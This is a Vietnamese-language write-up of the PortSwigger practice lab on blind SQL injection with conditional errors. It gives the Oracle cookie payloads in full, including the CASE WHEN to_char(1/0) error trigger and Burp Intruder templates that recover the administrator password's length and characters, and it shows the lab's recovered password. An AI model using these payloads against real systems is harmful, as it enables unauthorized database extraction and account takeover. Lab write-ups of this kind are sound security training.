

# Write-up: Blind SQL injection with conditional errors

### Tổng quan
Ghi lại quá trình khai thác Blind SQLi sử dụng kĩ thuật kích hoạt lỗi trả về có điều kiện để lấy mật khẩu rồi đăng nhập dưới `administrator`.

### Mục tiêu
- Trích dữ liệu mật khẩu của tài khoản `administrator`.
- Đăng nhập vào hệ thống với tên `administrator`

### Công cụ sử dụng
- BurpSuite Community
- Firefox Browser

### Các bước thực hiện
1. **Thu thập thông tin (Recon)**

- Kiểm tra tham số `TrackingId` của header `Cookie` trong HTTP request được chặn trong BurpSuite
    ```
    TrackingId=CwehTxdaEjLPvUlO' 
    -> Xuất hiện lỗi Internal Server Error
    ```
    ```    
    TrackingId=CwehTxdaEjLPvUlO'' 
    -> Không xuất hiện lỗi
    ```
    - **Kết quả**: xác nhận có lỗi nhưng chưa biết có phải SQL không

- Kiểm tra xem lỗi có phải do SQL gây ra không?
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT '')||' 
    -> xuất hiện lỗi Internal Server Error do câu truy vấn sai
    ```
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT '' FROM dual)||' 
    -> Không xuất hiện lỗi
    ```
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT '' FROM not_real)||' 
    -> Xuất hiện lỗi Internal Server Error do bảng not_real không có trong db
    ```
    - **Kết quả**: Xác nhận lỗ hổng Blind SQLi và DB là Oracle
        
      
- Xác định tồn tại của bảng users 
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT '' FROM users where rownum = 1)||'
    ```
    - **Kết quả**: Không có lỗi Internal Server Error được trả về, xác nhận có bảng users
      
 

- Xác định tài khoản `administrator` tồn tại 
  - Xác định hành vi của web
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT case when (1=1) then to_char(1/0) else '' end FROM dual)||' 
    -> Xuất hiện lỗi Internal Server Error
    ```
  - Thay đổi giá trị 1=2 
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT case when (1=2) then to_char(1/0) else '' end FROM dual)||' 
    -> Không xuất hiện lỗi 
    ```
    - **Kết quả**: web có thực hiện truy vấn và trả về lỗi hoặc không khi điều kiện trong `WHEN` thay đổi.
  - Dựa vào hành vi trên thêm điều kiện `username = administrator`
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT case when (1=1) then to_char(1/0) else '' end FROM users where username='administrator')||' -> tra ve loi internal server error -> xac nhan ton tai user administrator
    ``` 
    - **Kết quả**: Xuất hiện lỗi, xác nhận tồn tài `administrator`
    

2. **Tạo payload**
- Tạo payload và gửi qua Burp Intruder để xác định độ dài mật khẩu, payload được set như ảnh minh họa
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT case when (length(password)=§1§) then to_char(1/0) else '' end FROM users where username='administrator')||'
    ```
    - **Kết quả**: Xuất hiện lỗi, xác nhận độ dài mật khẩu là 20 kí tự
    

- Tạo payload và gửi qua Burp Intruder để xác định mật khẩu bằng bruteforce, payload được set như ảnh
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT case when substr(password,§1§,1)='§m§' then to_char(1/0) else '' end FROM users where username='administrator')||'
    ```
    - **Kết quả**: xác  nhận mật khẩu `administrator`:`xi8fu15iotkap63y3ldt`

3. **Khai thác (Exploitation)**
- Đăng nhập tại `/login` với `administrator`:`xi8fu15iotkap63y3ldt`
- **Kết quả**: Đăng nhập thành công, hoàn thành lab
    

### Bài học rút ra
- Thành thạo khai thác blind SQL injection dựa trên phản hồi lỗi có điều kiện.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: Blind SQL Injection

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng khai thác Blind SQL injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.